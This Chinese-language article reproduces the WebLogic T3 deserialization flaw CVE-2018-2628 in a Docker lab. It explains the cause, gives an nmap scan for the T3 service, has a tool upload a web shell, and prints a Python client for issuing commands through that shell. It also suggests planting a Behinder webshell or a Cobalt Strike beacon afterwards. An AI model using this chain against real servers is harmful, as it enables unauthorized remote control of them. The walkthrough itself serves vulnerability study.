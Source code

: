 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8LkrvicZdDWu6BY69REPFR27OOfS5HuI0lC5WyBlUtdoiaiaacNHI5yDzGQkSx7fQ4gQ0oPO3zEwKlA/640?wx_fmt=png)

CVE-2018-2628
=============

WebLogic T3 协议反序列化命令执行漏洞 (CVE-2018-2628)。Oracle WebLogic Server 的 T3 通讯协议的实现中存在反序列化漏洞。远程攻击者通过 T3 协议在 Weblogic Server 中执行反序列化操作，利用 RMI（远程方法调用） 机制的缺陷，通过 JRMP 协议（Java 远程方法协议）达到执行任意反序列化代码，进而造成远程代码执行

同为 WebLogic T3 引起的反序列化漏洞还有 CVE-2015-4852、CVE-2016-0638、CVE-2016-3510、CVE-2017-3248、CVE-2018-2893、CVE-2016-0638

漏洞原理
----

在 InboundMsgAbbrev 中 resolveProxyClass 中，resolveProxyClass 是处理 rmi 接口类型的，只判断了 java.rmi.registry.Registry，这就会导致任意一个 rmi 接口都可绕过。核心部分就是 JRMP（Java Remote Method protocol），在这个 PoC 中会序列化一个 RemoteObjectInvocationHandler，它会利用 UnicastRef 建立到远端的 tcp 连接获取 RMI registry，加载回来再利用 readObject 解析，从而造成反序列化远程代码执行。

漏洞复现
----

进入 CVE-2018-2628 的 docker 环境

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8LkrvicZdDWu6BY69REPFR2zFtANZH4aUbKWtnSEbamVm7U27Bw0VfyPzo0gcjjCqPQN5B2ibXKnYw/640?wx_fmt=png)

这里先使用 nmap 扫描一下是否开启了 WebLogic T3 服务

```
nmap -n -v -p 7001,7002 192.168.1.10 --script=weblogic-t3-info
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8LkrvicZdDWu6BY69REPFR2Jt8WawmibM6yfvLaZHIrCuNWVicdSYNmf9rU65OsMnpZGjKr2DnXrOUw/640?wx_fmt=png)

这里使用 K8Weblogic.exe 直接写一个 shell 进去

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8LkrvicZdDWu6BY69REPFR2nxnFf2H5ttkXEnorBiaGmnBhSz9libGdrZn1FVhicOPZIM0v9ibtDsQtvw/640?wx_fmt=png)

然后使用以下 py 获取一个交互型 shell

```
#!/usr/bin/env python# -*- coding: utf-8 -*-print r'''https://github.com/jas502n/CVE-2018-2628@author Jas502n'''import base64import urllibimport requestsfrom urllib import *def shell(url,cmd):    all_url = url + "?tom=" + base64.b64encode(cmd)    try:        result = requests.get(all_url)        if result.status_code == 200:            print result.content    except requests.ConnectionError,e:        print eth = {"url":""}while True:    if th.get("url") != "":        input_cmd = raw_input("cmd >>: ")        if input_cmd == "exit":            exit()        elif input_cmd == 'set':            url = raw_input("set shell :")            th['url'] = url        elif input_cmd == 'show url':            print th.get("url")        else:            shell(th.get("url"),input_cmd)    else:        url = raw_input("set shell :")        th["url"] = url
```

url 这个位置就填之前 exe 上传 shell 的位置即可，拿到交互 shell 之后可以 echo 写一个冰蝎马或者 powershell 上线 cs 都可

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8LkrvicZdDWu6BY69REPFR25nWjEkqjsiaUl0BSp0pCykmVsCcia62xHaw8ia84AV6OLp1d0kAcfHjZA/640?wx_fmt=png)

CVE-2018-2894
=============
